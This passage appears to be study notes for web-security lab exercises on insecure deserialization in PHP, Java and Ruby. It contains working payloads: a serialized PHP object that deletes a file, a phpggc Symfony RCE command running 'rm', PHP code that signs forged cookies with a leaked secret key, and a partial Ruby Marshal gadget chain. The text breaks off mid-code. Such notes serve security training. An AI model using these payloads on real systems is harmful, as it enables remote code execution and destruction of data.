 ```
2. Find out destruct() method
3. Create next payload:
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
4. Exploiting Java deserialization with Apache Commons
```
1. Use burp scanner to identify that the serialized object is Java Commons
2. Use ysoserial to create new payload
3. Base64 + URL encode it
```
5. Exploiting PHP deserialization with a pre-built gadget chain
```
1. Find out php.info
2. Find out Symfony ver and Secret Key
3. Create next payload:
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
4. Sign it with Secret Key using PHP code
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```/admin
6. Exploiting Ruby deserialization using a documented gadget chain
```
1. Use burp scanner to identify that the serialized object is Ruby using Marshal
2. Use the next code to create own object: 
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 
```
```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")
